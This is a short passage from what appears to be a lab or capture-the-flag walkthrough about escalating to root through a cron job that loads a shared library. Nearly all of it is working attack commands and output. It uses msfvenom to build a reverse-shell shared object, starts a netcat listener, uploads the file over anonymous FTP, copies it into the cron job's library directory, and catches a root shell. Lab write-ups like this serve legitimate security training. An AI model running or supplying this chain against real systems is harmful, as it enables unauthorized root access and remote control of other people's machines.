 # Exploit Cron Job

To exploit our log-sweeper cron job, all we need to do is generate a malicious shared object file named utils.so and place it in the /usr/local/lib/dev directory. First, we’ll generate our malicious shared object file.
```
kali@kali:~$ msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali LPORT=6379
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: utils.so
```
Next, we’ll start a Netcat handler to catch our reverse shell.
```
kali@kali:~$ nc -lvp 6379
listening on [any] 6379 ...
```
We’ll upload our shared object to the anonymous FTP service.
```
kali@kali:~$ ftp 192.168.120.217
Connected to 192.168.120.217.
220 (vsFTPd 3.0.2)
Name (192.168.120.217:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.
ftp> cd pub
250 Directory successfully changed.
ftp> put utils.so
local: utils.so remote: utils.so
227 Entering Passive Mode (192,168,120,217,39,107).
150 Ok to send data.
226 Transfer complete.
476 bytes sent in 0.00 secs (6.6757 MB/s)
ftp> bye
221 Goodbye.
```
Next, we’ll move our payload into the /usr/local/lib/dev directory.
```
cp /var/ftp/pub/utils.so /usr/local/lib/dev/utils.so
```
Finally, we’ll wait for the cron job to execute, load our payload send us our reverse root shell.
```
kali@kali:~$ nc -lvp 6379
listening on [any] 6379 ...
192.168.120.217: inverse host lookup failed: Unknown host
connect to [kali] from (UNKNOWN) [192.168.120.217] 48416
id
uid=0(root) gid=0(root) groups=0(root)
```